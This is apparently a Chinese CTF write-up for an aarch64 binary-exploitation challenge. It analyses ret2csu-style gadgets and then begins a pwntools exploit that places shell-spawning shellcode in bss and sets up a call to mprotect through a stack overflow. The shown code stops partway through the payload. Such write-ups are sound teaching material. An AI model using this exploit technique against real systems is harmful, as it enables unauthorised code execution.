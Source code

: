 
先分析下面的loc_4008cc的内容

```assembly
LDP             X19, X20, [SP,#var_s10]
LDP             X21, X22, [SP,#var_s20]
LDP             X23, X24, [SP,#var_s30]
LDP             X29, X30, [SP+var_s0],#0x40                
RET
```

第一句这个LDP         X19, X20, [SP,#var_s10]就是说将SP+0x10所指向的内容给x19和x20寄存器（x19寄存器拿的是SP+0x10所指向的内容，而x20寄存器拿的是SP+0x18所指向的内容）

然后第四句这个LDP         X29, X30, [SP+var_s0],#0x40的意思是将SP所指向的内容给x29和x30寄存器（x29寄存器拿的是SP所指向的内容，而x30寄存器拿的是SP+0x8所指向的内容），完成这句指令之后，再将SP指针增加0x40个字节。

然后ret，这个就是返回到x30寄存器所存储的值。

再结合着刚刚分析的内容，来看一下loc_4008ac的内容。

```assembly
LDR             X3, [X21,X19,LSL#3]
MOV             X2, X22
MOV             X1, X23
MOV             W0, W24
ADD             X19, X19, #1
BLR             X3
CMP             X19, X20
B.NE            loc_4008AC
```

第一句就是说将x19的值逻辑左移3位，然后加上x21的值，将得到的这个值所指向内容给x3寄存器。（如果我们控制x19的值为0的话，就是说把x21寄存器的值所指向的内容给x3寄存器。

然后剩下的mov，add就没什么好说的了。

倒数第三行BLR指令是去跳转到X3寄存器的值，同时把下一个指令的地址存到x30里面。

然后下面的CMP和x86里面的一样了。



如此思路就出来了，几乎是跟ret2csu的利用方法一样。有两点需要注意一下。第一点就是loc_4008cc中的

LDP             X29, X30, [SP+var_s0],#0x40    这个指令，虽然**它是在这个loc_4008cc函数的最后，但是它传给x29和x30寄存器的时候，拿的是栈顶的值。因此布置栈中数据的时候，栈顶的内容应该是存放的x29和x30的值。**

第二点，**是BLR X3的时候，这个X3的值溯源一下，它是由X21充当指针来指向的，而X21的值又是SP+0x20充当指针来指向的。意思就是说，我们最终想跳转的内容必须被指针的指针所指向，因此考虑的是将X3的内容放在bss段，然后X21去存储bss段的地址（指向X3的内容），然后再把X21的值布置在栈里面**。最后X3的值放入mprotect的plt地址即可（**因为BLR跳的话，直接跳到了寄存器的值处，因此这里应该放的是plt地址（要求这个地址装的就是指令）**，got地址（装的是got表，而got表中装的才是指令）是用于指针寻址跳转的情况，当时在这里迷了一下）。

## EXP

```python
#coding:utf-8
from pwn import *
context(arch='aarch64',os='linux',log_level='debug')
p=remote('node4.buuoj.cn',26705)
e=ELF('./zhengchang')
mprotect_got=e.got['mprotect']
mprotect_plt=e.plt['mprotect']
offset=0x48
bss_addr=0x411068
csu1=0x4008CC
csu2=0x4008AC
shellcode=asm(shellcraft.aarch64.sh())
shellcode=shellcode.ljust(0x100,'\x00')
shellcode+=p64(mprotect_plt)
payload1=shellcode
p.sendlineafter('Name:',payload1)
payload2=offset*'a'+p64(csu1)
payload2+=p64(0)+p64(csu2) #x29 x30
```